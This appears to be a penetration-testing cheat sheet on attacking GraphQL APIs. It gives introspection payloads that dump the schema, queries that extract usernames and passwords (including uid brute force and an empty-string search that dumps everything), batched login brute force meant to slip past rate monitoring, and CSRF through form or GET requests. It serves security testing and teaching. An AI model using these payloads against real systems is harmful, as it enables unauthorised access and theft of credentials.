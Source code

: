 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# GraphQL
### References
* <details><summary>References (Click to expand)</summary><p>
	* [https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/graphql.md](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/graphql.md)
	* [https://jondow.eu/practical-graphql-attack-vectors/](https://jondow.eu/practical-graphql-attack-vectors/)
	* [https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
	* [https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4](https://medium.com/@apkash8/graphql-vs-rest-api-model-common-security-test-cases-for-graphql-endpoints-5b723b1468b4)
	* [http://ghostlulz.com/api-hacking-graphql/](http://ghostlulz.com/api-hacking-graphql/)
	* [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/GraphQL%20Injection/README.md)
	* [https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696](https://medium.com/@the.bilal.rizwan/graphql-common-vulnerabilities-how-to-exploit-them-464f9fdce696)
	* Video explaining AutoGraphQL -<br />[https://www.youtube.com/watch?v=JJmufWfVvyU](https://www.youtube.com/watch?v=JJmufWfVvyU)

### Tools
* <details><summary>Tools (Click to expand)</summary><p>
	* Clients
		* [https://github.com/graphql/graphiql](https://github.com/graphql/graphiql)
		* [https://github.com/swisskyrepo/GraphQLmap](https://github.com/swisskyrepo/GraphQLmap)
		* [https://altair.sirmuel.design/](https://altair.sirmuel.design/)
		* [https://blog.doyensec.com/2020/03/26/graphql-scanner.html](https://blog.doyensec.com/2020/03/26/graphql-scanner.html)
		* [https://github.com/doyensec/inql](https://github.com/doyensec/inql)
		* [https://altair.sirmuel.design/](https://altair.sirmuel.design/)
		* [https://gitlab.com/dee-see/graphql-path-enum](https://gitlab.com/dee-see/graphql-path-enum)
	* Automatic Tests
		* [https://graphql-dashboard.herokuapp.com/](https://graphql-dashboard.herokuapp.com/)

### Overview
* <details><summary>Overview (Click to expand)</summary><p>
	* GraphQL is a data query language developed by Facebook and was released in 2015. GraphQL acts as an alternative to REST API. Rest APIs require the client to send multiple requests to different endpoints on the API to query data from the backend database. With graphQL you only need to send one request to query the backend. This is a lot simpler because you don’t have to send multiple requests to the API, a single request can be used to gather all the necessary information.
	* As new technologies emerge so will new vulnerabilities. By **default** graphQL does **not** implement **authentication**, this is put on the developer to implement. This means by default graphQL allows anyone to query it, any sensitive information will be available to attackers unauthenticated.
	* When performing your directory brute force attacks make sure to add the following paths to check for graphQL instances.
		* `_/graphql_`
		* `_/graphiql_`
		* `_/graphql.php_`
		* `_/graphql/console_`
	* Once you find an open graphQL instance you need to know what queries it supports. This can be done by using the introspection system, more details can be found here: [Website](https://graphql.org/learn/introspection/)

### Process
* <details><summary>Basic Enumeration (Click to expand)</summary><p>
	* Graphql usually supports GET, POST (x-www-form-urlencoded) and POST(json).
	* `query={\__schema{types{name,fields{name}}}}`
		* With this query you will find the name of all the types being used:
		* ![](<../../.gitbook/assets/image (202).png>)
	* `query={\__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`
		* With this query you can extract all the types, it's fields, and it's arguments (and the type of the args). This will be very useful to know how to query the database.
		* ![](<../../.gitbook/assets/image (207).png>)
	* Errors
		* It's interesting to know if the **errors** are going to be **shown** as they will contribute with useful **information.**

					?query={__schema}
					?query={}
					?query={thisdefinitelydoesnotexist}
			* ![](<../../.gitbook/assets/image (205).png>)
	* Enumerate Database Schema via Introspection

			/?query=fragment%20FullType%20on%20Type%20{+%20%20kind+%20%20name+%20%20description+%20%20fields%20{+%20%20%20%20name+%20%20%20%20description+%20%20%20%20args%20{+%20%20%20%20%20%20...InputValue+%20%20%20%20}+%20%20%20%20type%20{+%20%20%20%20%20%20...TypeRef+%20%20%20%20}+%20%20}+%20%20inputFields%20{+%20%20%20%20...InputValue+%20%20}+%20%20interfaces%20{+%20%20%20%20...TypeRef+%20%20}+%20%20enumValues%20{+%20%20%20%20name+%20%20%20%20description+%20%20}+%20%20possibleTypes%20{+%20%20%20%20...TypeRef+%20%20}+}++fragment%20InputValue%20on%20InputValue%20{+%20%20name+%20%20description+%20%20type%20{+%20%20%20%20...TypeRef+%20%20}+%20%20defaultValue+}++fragment%20TypeRef%20on%20Type%20{+%20%20kind+%20%20name+%20%20ofType%20{+%20%20%20%20kind+%20%20%20%20name+%20%20%20%20ofType%20{+%20%20%20%20%20%20kind+%20%20%20%20%20%20name+%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20ofType%20{+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20kind+%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20name+%20%20%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20%20%20}+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}++query%20IntrospectionQuery%20{+%20%20schema%20{+%20%20%20%20queryType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20mutationType%20{+%20%20%20%20%20%20name+%20%20%20%20}+%20%20%20%20types%20{+%20%20%20%20%20%20...FullType+%20%20%20%20}+%20%20%20%20directives%20{+%20%20%20%20%20%20name+%20%20%20%20%20%20description+%20%20%20%20%20%20locations+%20%20%20%20%20%20args%20{+%20%20%20%20%20%20%20%20...InputValue+%20%20%20%20%20%20}+%20%20%20%20}+%20%20}+}
		* The last code line is a graphql query that will dump all the meta-information from the graphql (objects names, parameters, types...)
		* If introspection is enabled you can use [**GraphQL Voyager**](https://github.com/APIs-guru/graphql-voyager) to view in a GUI all the options.
	* No Introspection
		* More and more **graphql endpoints are disabling introspection**. However, the errors that graphql throws when an unexpected request is received are enough for tools like [**clairvoyance**](https://github.com/nikitastupin/clairvoyance) to recreate most part of the schema.
* <details><summary>Querying (Click to expand)</summary><p>
	* Now that we know which kind of information is saved inside the database, let's try to **extract some values**.
	* In the introspection you can find **which object you can directly query for** (because you cannot query an object just because it exists). In the following image you can see that the "_queryType_" is called "_Query_" and that one of the fields of the "_Query_" object is "_flags_", which is also a type of object. Therefore you can query the flag object.
	* You can see that the "_Flags_" objects are composed by **name** and .**value** Then you can get all the names and values of the flags with the query:

			query={flags{name, value}}
	* Note that in case the **object to query** is a **primitive** **type** like **string** like in the following example
	* You can just query is with:

			query={hiddenFlags}
	* In another example where there were 2 objects inside the "_Query_" type object: "_user_" and "_users_".\
	If these objects don't need any argument to search, could **retrieve all the information from them** just **asking** for the data you want. In this example from Internet you could extract the saved usernames and passwords:
	* However, in this example if you try to do so you get this **error**:
	* Looks like somehow it will search using the "_**uid**_" argument of type _**Int**_.\
	* Anyway, we already knew that, in the [Basic Enumeration](graphql.md#basic-enumeration) section a query was purposed that was showing us all the needed information: `query={__schema{types{name,fields{name, args{name,description,type{name, kind, ofType{name, kind}}}}}}}`
	* If you read the image provided when I run that query you will see that "_**user**_" had the **arg** "_**uid**_" of type _Int_.
	* So, performing some light _**uid**_ bruteforce I found that in _**uid**=**1**_ a username and a password was retrieved:\
	`query={user(uid:1){user,password}}`
	* And during the **enumeration phase** I discovered that the "_**dbuser**_" object had as fields "_**user**_" and "_**password**_.
	* Query string dump trick (thanks to @BinaryShadow\_)
		* If you can search by a string type, like: `query={theusers(description: ""){username,password}}` and you **search for an empty string** it will **dump all data**. (_Note this example isn't related with the example of the tutorials, for this example suppose you can search using "**theusers**" by a String field called "**description**"_).
		* GraphQL is a relatively new technology that is starting to gain some traction among startups and large corporations. Other than missing authentication by default graphQL endpoints can be vulnerable to other bugs such as IDOR.
* <details><summary>Searching (Click to expand)</summary><p>
	* For this example imagine a data base with **persons** identified by the email and the name and **movies** identified by the name and rating. A **person** can be **friend** with other **persons** and a person can **have movies**.
	* You can **search** persons **by** the **name** and get their emails (javacript):

			{
			  searchPerson(name: "John Doe") {
			    email
			  }
			}
	* You can **search** persons **by** the **name** and get their **subscribed** **films** (javascript):
	
			{
			  searchPerson(name: "John Doe") {
			    email
			    subscribedMovies {
			      edges {
			        node {
			          name
			        }
			      }
			    }
			  }
			}
	* Note how its indicated to retrieve the `name` of the `subscribedMovies` of the person.
	* You can also **search several objects at the same time**. In this case, a search 2 movies is done (javascript):

			{
			  searchPerson(subscribedMovies: [{name: "Inception"}, {name: "Rocky"}]) {
			    name
			  }
			}
	* Or even **relations of several different objects using aliases** (javascript):

			{
			  johnsMovieList: searchPerson(name: "John Doe") {
			    subscribedMovies {
			      edges {
			        node {
			          name
			        }
			      }
			    }
			  }
			  davidsMovieList: searchPerson(name: "David Smith") {
			    subscribedMovies {
			      edges {
			        node {
			          name
			        }
			      }
			    }
			  }
			}
* <details><summary>Mutations (Click to expand)</summary><p>
	* **Mutations are used to make changes in the server-side.**
	* For this example imagine a data base with **persons** identified by the email and the name and **movies** identified by the name and rating. A **person** can be **friend** with other **persons** and a person can **have movies**.
	* A mutation to **create new** movies inside the database can be like the following one (in this example the mutation is called `addMovie`) (javascript):

			mutation {
			  addMovie(name: "Jumanji: The Next Level", rating: "6.8/10", releaseYear: 2019) {
			    movies {
			      name
			      rating
			    }
			  }
			}
		* **Note how both the values and type of data are indicated in the query.**
	* There may also be also a **mutation** to **create** **persons** (called `addPerson` in this example) with friends and files (note that the friends and films have to exist before creating a person related to them) (javascript):

			mutation {
			  addPerson(name: "James Yoe", email: "jy@example.com", friends: [{name: "John Doe"}, {email: "jd@example.com"}], subscribedMovies: [{name: "Rocky"}, {name: "Interstellar"}, {name: "Harry Potter and the Sorcerer's Stone"}]) {
			    person {
			      name
			      email
			      friends {
			        edges {
			          node {
			            name
			            email
			          }
			        }
			      }
			      subscribedMovies {
			        edges {
			          node {
			            name
			            rating
			            releaseYear
			          }
			        }
			      }
			    }
			  }
			}
* <details><summary>Batching brute-force in 1 API request (Click to expand)</summary><p>
	* <details><summary>References (Click to expand)</summary><p>
		* [https://lab.wallarm.com/graphql-batching-attack/](https://lab.wallarm.com/graphql-batching-attack/).
	* Process
		* Authentication through GraphQL API with **simultaneously sending many queries with different credentials** to check it. It’s a classic brute force attack, but now it’s possible to send more than one login/password pair per HTTP request because of the GraphQL batching feature. This approach would trick external rate monitoring applications into thinking all is well and there is no brute-forcing bot trying to guess passwords.
		* Below you can find the simplest demonstration of an application authentication request, with **3 different email/passwords pairs at a time**. Obviously it’s possible to send thousands in a single request in the same way:
		* As we can see from the response screenshot, the first and the third requests returned _null_ and reflected the corresponding information in the _error_ section. The **second mutation had the correct authentication** data and the response has the correct authentication session token.
* <details><summary>CSRF in GraphQL (Click to expand)</summary><p>
	* <details><summary>References (Click to expand)</summary><p>
		* CSRF in GraphQL -<br />[https://blog.doyensec.com/2021/05/20/graphql-csrf.html](https://blog.doyensec.com/2021/05/20/graphql-csrf.html)
	* Process
		* Out there you are going to be able to find several GraphQL endpoints **configured without CSRF tokens.**
		* Note that GraphQL request are usually sent via POST requests using the Content-Type `application/json` (javascript):

				{"operationName":null,"variables":{},"query":"{\n  user {\n    firstName\n    __typename\n  }\n}\n"}
		* However, most GraphQL endpoints also support **`form-urlencoded` POST requests** (javascript):

				query=%7B%0A++user+%7B%0A++++firstName%0A++++__typename%0A++%7D%0A%7D%0A
		* Therefore, as CSRF requests like the previous ones are sent **without preflight requests**, it's possible to **perform** **changes** in the GraphQL abusing a CSRF.
		* However, note that the new default cookie value of the `samesite` flag of Chrome is `Lax`. This means that the cookie will only be sent from a third party web in GET requests.
		* Note that it's usually possible to send the **query** **request** also as a **GET** **request and the CSRF token might not being validated in a GET request.**
		* Also, abusing an XS-Search attack might be possible to exfiltrate content from the GraphQL endpoint abusing the credentials of the user.
